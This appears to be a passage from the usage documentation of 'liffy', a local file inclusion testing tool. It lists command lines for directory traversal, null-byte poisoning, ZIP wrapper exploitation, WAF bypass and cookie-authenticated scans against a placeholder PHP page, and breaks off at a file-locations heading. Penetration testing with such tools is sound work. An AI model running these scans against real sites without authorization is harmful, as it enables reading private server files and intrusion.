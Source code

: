 ### Directory Traversal

#### Relative path traversal

```bash
python3 liffy.py "http://example.com/page.php?file=" -d -r
```

#### Directory traversal testing

```bash
python3 liffy.py "http://example.com/page.php?file=" -dt
```

### Special Techniques

#### Null byte poisoning (legacy PHP)

```bash
python3 liffy.py "http://example.com/page.php?file=" --null-byte
```

#### ZIP wrapper exploitation

```bash
python3 liffy.py "http://example.com/page.php?file=" --zip
```

#### Comprehensive scan with all techniques

```bash
python3 liffy.py "http://example.com/page.php?file=" \
  -d -i -e -f -p -a --ssh -dt --null-byte --zip \
  --encoding --waf-bypass --detection
```

### Authentication & Cookies

#### Using session cookies

```bash
python3 liffy.py "http://example.com/page.php?file=" -d \
  --cookies "PHPSESSID=abc123; auth_token=xyz789"
```

### Output Control

#### Disable colors and banner

```bash
python3 liffy.py "http://example.com/page.php?file=" -d --no-color --no-banner
```

## Default File Locations

The following default locations are used when no custom path is specified:
